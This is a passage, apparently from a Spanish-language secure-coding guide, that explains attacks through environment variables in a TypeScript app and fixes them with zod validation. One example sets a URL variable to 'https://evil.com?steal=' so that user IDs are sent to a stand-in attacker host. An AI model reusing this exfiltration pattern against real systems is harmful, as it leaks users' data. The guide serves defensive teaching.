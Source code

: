 **Solución:**
Usando `serverEnv`, todos leen del mismo objeto inmutable.

---

### 2. Type Confusion Attacks

```typescript
// ❌ Sin validación de tipo
const decimals = parseInt(process.env.USDC_DECIMALS ?? '6')

// Ataque: .env.local tiene
USDC_DECIMALS=1000000

// Resultado:
Math.pow(10, 1000000)  // 💥 Infinity
// Todos los cálculos monetarios dan resultados incorrectos
```

**Solución:**
```typescript
// serverEnv.ts con validación de rango
USDC_DECIMALS: z.string()
    .regex(/^\d+$/)
    .transform(Number)
    .refine(n => n >= 0 && n <= 18, 'Decimals must be between 0 and 18')
```

---

### 3. Injection via Environment Variables

```typescript
// ❌ PELIGRO: Si un env var se usa en construcción de URL
const apiUrl = process.env.EXTERNAL_API_URL
fetch(`${apiUrl}/users/${userId}`)

// Ataque: .env.local
EXTERNAL_API_URL=https://evil.com?steal=

// Resultado:
fetch('https://evil.com?steal=/users/12345')
// Filtra IDs de usuarios al atacante
```

**Solución:**
```typescript
// serverEnv.ts
EXTERNAL_API_URL: z.string()
    .url()
    .refine(url => {
        const parsed = new URL(url)
        return parsed.hostname.endsWith('.yourdomain.com')
    }, 'API URL must be from yourdomain.com')
```

---